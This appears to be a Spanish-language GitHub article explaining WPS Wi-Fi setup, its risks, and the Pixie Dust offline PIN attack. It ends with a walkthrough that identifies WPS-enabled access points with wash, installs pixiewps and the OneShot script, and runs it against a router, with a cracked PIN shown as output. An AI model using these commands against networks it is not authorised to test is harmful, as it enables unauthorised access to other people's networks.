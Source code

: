 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=F70000&width=470&lines=Cracking+WPS+PIN+-+Ataque+Pixie+Dust"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>SISTEMA WPS PIN</ins></h3>

WPS (_Wifi Protected Setup_) es un estándar de red lanzado en el año 2007 cuyo objetivo es facilitar la conexión inalámbrica con tan solo pulsar un botón proveniente del router. De este modo, se evita introducir la contraseña del Wi-Fi (sobre todo si es larga y difícil de recordar) reemplazandola con un PIN de 8 dígito para su fácil acceso. El cifrado WEP no es compatible con WPS, sino con WPA/WPA2. Esto no quiere decir que este basado en brindar seguridad, sino simplemente simplificar el acceso, de hecho, mantenerlo activado puede presentar alto riesgo para los dispositivos que se encuentren conectados a la misma red.

La conexión de WPS es muy sencilla, una de las más comunes es pulsar el botón detrás del router y el emparejamiento con los dispositivos se hará automático. Algunos dispositivos como impresoras, adaptadores Wi-Fi poseen su propio botón WPS, por lo que primero se debe pulsar el del router y luego el del aparato para establecer la conexión. Algunos routers con botón WPS ofrecen un PIN de ocho cifras para simplificar la conexión con dispositivos que no tengan dicho botón, está se debe copiar e introducir manualmente como si fuera la contraseña de la red, que por lo general es más compleja. En caso de no contar con dicho PIN se debe acceder al panel de control del router desde el navegador (http://192.168.1.1) **>** Seguridad WPS y copiar el PIN (también se puede generar uno nuevo).

WPS contempla cuatro tipo de configuraciones diferentes para el intercambio de credenciales:

- **PIN** (Número de identificación personal): Al usuario se le ofrece un PIN de 8 dígitos para que ingrese manualmente en sus dispositivos y establezca conexión sin otorgar la contraseña real del Wi-Fi.

- **PBC** (Configuración del botón pulsador): El usuario presionar el botón WPS del punto de acceso (AP) y seguidamente el botón WPS del dispositivo para establecer la autenticación. Cualquier otra estación cercana no autorizada puede ganar acceso.

- **NFC** (Comunicaciones de campo cercano): Es una tecnología inalámbrica que permite la comunicación e intercambio de datos entre dos dispositivos sin interrupciones a corta distancia. El dispositivo debe ser colocado cerca del router para intercambiar información

- **USB** (Bus Universal en Serie): Es un método de forma física, las credenciales se guardan en una memoria flash USB que luego es introducido en el dispositivo que se desee autenticar a la red.

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Redes/GNU-Linux/img/WPS_PIN.png">
</p>

### Riesgos

En primer lugar, al presionar el botón WPS se esta inhabilitando todas las medidas de seguridad configuradas en la conexión, incluyendo el cifrado WPA/WPA2 será de poca utilidad. El PIN consta de 8 dígitos, lo que quiere decir que un ataque de fuerza bruta es más que suficiente para adivinarlo y acceder a la red. Mientras que eataque <a href="https://www.wifi-libre.com/topic-57-pixie-dust-ataque-de-fuerza-bruta-offline-para-generar-el-pin-valido.html">**WPS Pixie Dust**</a> se centra en capturar el intercambio de paquetes entre el router víctima y el atacante, para posteriormente intentar crackear el PIN sin necesidad de conexión (offline) en tan solo un par de segundos. El PIN es dividido por dos claves precompartidas por cada PSK (mitad y mitad), las solicitudes del **AP** funcionan de la siguiente manera:

- _Envíos informáticos - EAPOL Start_: El cliente y el dispositivo de acceso utilizan paquetes EAP para transportar información de autenticación. El cliente envía un mensaje EAPOL-Start para iniciar la autenticación 802.1X en el dispositivo de acceso.

- _Envíos del enrutador: solicitud EAP para la identidad_: El autenticador envía una solicitud EAP para la identidad del solicitante de conexión (dispositivo cliente). El solicitante responde al autenticador con una Respuesta de identidad EAP que contiene la identidad (nombre de usuario) utilizada para la autenticación.

- _Envíos del enrutador: solicitud EAP_ / _Envíos por computadora: respuesta EAP_: Los marcos de solicitud EAP y los marcos de respuesta EAP se transmiten de un lado a otro hasta que el servidor de autenticación envía un mensaje EAP-Success al switch. El autenticador envía solicitudes al sistema en busca de acceso y las respuestas otorgan o niegan el acceso.

Estas solicitudes son repetidas continuamente antes de que se llegue a enviar las credenciales, durante el proceso se captura la clave pública de Diffie Hellman del miembro y del registrador, y dos hashes del PIN WPS (PSK1, PSK2). Luego se realiza la fuerza bruta contra los hashes y como resultado se agrupan los 4 dígitos de cada clave.

- <a href="https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)">WPS Pixie Dust Attack (Offline WPS Attack)</a>

<h1 align="center"></h1>

#### Identificar puntos de accesos habilitados para WPS

Con el comando `wash` **+** `-i` **+** `interfaz` podemos identificar aquellos puntos de acceso de nuestro alrededor que tienen habilitado el sistema WPS.

![0](https://user-images.githubusercontent.com/75953873/191641965-ea94c4ba-630e-4a06-8220-c763a8497888.png)

</br>

### ONESHOT | Cracking WPS PIN - Pixie Dust

OneShot es un script hecho en Python para realizar ataque de Pixie Dust sin necesidad de cambiar el adaptador de red a modo monitor. Se utiliza **wpa_supplicant** para obtener los datos requeridos.

**_Instalar en Debian:_**
```
> sudo apt install -y python3 wpasupplicant iw wget

> sudo apt install -y pixiewps

> git clone --depth 1 https://github.com/drygdryg/OneShot && cd OneShot
```

**-i:** Nombre de la interfaz a utilizar (Ej: wlan0).

**-b:** Dirección MAC del punto de acceso (AP).

**-K:** Modo de ataque Pixie Dust

Ejecutamos el script y esperamos que capture las claves y realice el crackeo automático:
```
python3 oneshot.py -i wlan0 -b XX:XX:XX:XX:XX:XX -K
```
![1](https://user-images.githubusercontent.com/75953873/191641118-616f58c7-b60c-4f2a-9d7a-68009df2172d.png)

PIN crackeado con éxito = **49011838**
Duración = **244 milisegundos**

![2](https://user-images.githubusercontent.com/75953873/191642529-e21dbec8-434c-472d-b8d2-f28c5e6c40be.png)

